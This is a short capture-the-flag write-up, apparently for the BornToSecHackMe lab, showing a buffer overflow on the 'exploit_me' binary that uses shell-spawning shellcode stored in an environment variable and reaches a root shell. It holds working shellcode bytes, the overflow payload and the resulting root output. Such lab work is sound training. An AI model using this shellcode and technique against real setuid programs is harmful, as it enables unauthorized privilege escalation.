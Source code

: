 # Shellcode using environment variable

It's a `buffer overflow` using an alternative method. Our shellcode is not stored on the buffer but in an environment variable.  
This technique is used when the buffer is too small and can't hold our shellcode.  

So first, we must export a new variable:

```bash
zaz@BornToSecHackMe:~$ export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

Then we compile our [program](get_env.c) to obtain address of this variable. (This programm is sent using `scp` command or can be created directly in zaz's home):

```bash
zaz@BornToSecHackMe:~$ gcc get_env.c 
zaz@BornToSecHackMe:~$ ./a.out SHELLCODE
Address is: 0xbffff7d1
```

Previously we have calculated the offset to override `saved eip` so we can spawn shell using the next payload:

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("a" * 140 + "\xbf\xff\xf7\xd1"[::-1])')
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
$ cd /root
$ ls
README
$ cat README
CONGRATULATIONS !!!!
To be continued...
```
